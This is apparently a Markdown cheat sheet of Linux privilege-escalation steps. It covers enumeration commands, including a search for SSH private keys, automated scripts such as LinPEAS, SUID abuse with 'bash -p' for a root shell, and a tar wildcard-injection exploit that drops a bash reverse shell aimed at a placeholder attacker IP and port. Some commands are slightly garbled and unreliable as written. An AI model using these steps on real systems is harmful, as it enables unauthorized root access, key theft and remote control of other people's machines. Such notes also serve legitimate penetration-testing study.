 ```yaml
---
title: 5 – Privesc Linux
summary: Privilege Escalation step – a note for elevating privileges on a Linux machine.
description: Privilege Escalation step – a note for elevating privileges on a Linux machine.
---
```


# Privesc Checklist

---

 > 
 > **<font color=red>sudo -l</font>**</br>
 > Display commands allowed to run with root privileges.

 > 
 > **<font color=red>history</font>**</br>
 > Show shell history.

 > 
 > **<font color=red>env</font>**</br>
 > Show environment variables.

 > 
 > **<font color=red>find / -perm -u=s -type f 2>/dev/null</font>**</br>
 > Search for commands with SUID enabled (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>getcap -r / 2>/dev/null</font>**</br>
 > Search for commands with capabilities (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>find / -writable 2>/dev/null</font>**</br>
 > Search for writable folders.

 > 
 > **<font color=red>\<find / -name id_rsa 2> /dev/null/br></font>**</br>
 > Search for SSH private keys.

 > 
 > **<font color=red>cat /etc/crontab</font>**</br>
 > Looking for automated scripts.

# Others Suggestions

---

* Determining the kernel of the machine and search for kernel exploitation (such as Dirtyc0w).
* Misconfigured file and directory permissions.
* pspy (process snooping): https://github.com/DominicBreuker/pspy 

# Automated Scripts

---

### LINPEAS

https://github.com/carlospolop/PEASS-ng/releases

 > 
 > **<font color=red>./linpeas.sh</font>**

---

### LINEUM

https://github.com/rebootuser/LinEnum

 > 
 > **<font color=red>./LinEnum.sh</font>**

# SUID Examples

---

### CP

 > 
 > **<font color=red>cp /root/</font> /home/myUser/**</br>
 > **<font color=red>cd</font> /home/myUser/root**</br>
 > Access root content.

---

### BASH

 > 
 > **<font color=red>bash -p</font>**</br>
 > Get a root shell.

# Wildcard Exploitation

---

### Resource

[https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)

### Example

Script running as root:

 > 
 > **tar cf /home/myUser/backups/backup.tgz \***

Exploit:

 > 
 > **<font color=red>echo "bash -i >& i/dev/tcp/</font>\[ATTACKER IP\]<font color=red>/</font>\[ATTACKER PORT\] <font color=red>0>&1" > </font>revshell.sh**</br>
 > **<font color=red>touch "</font>/home/myUser/backups/<font color=red>--checkpoint-action=exec=</font>sh revshell.sh<font color=red>"</font>**</br>
 > **<font color=red>touch "</font>/home/myUser/<font color=red>"--checkpoint=1"</font>**</br>
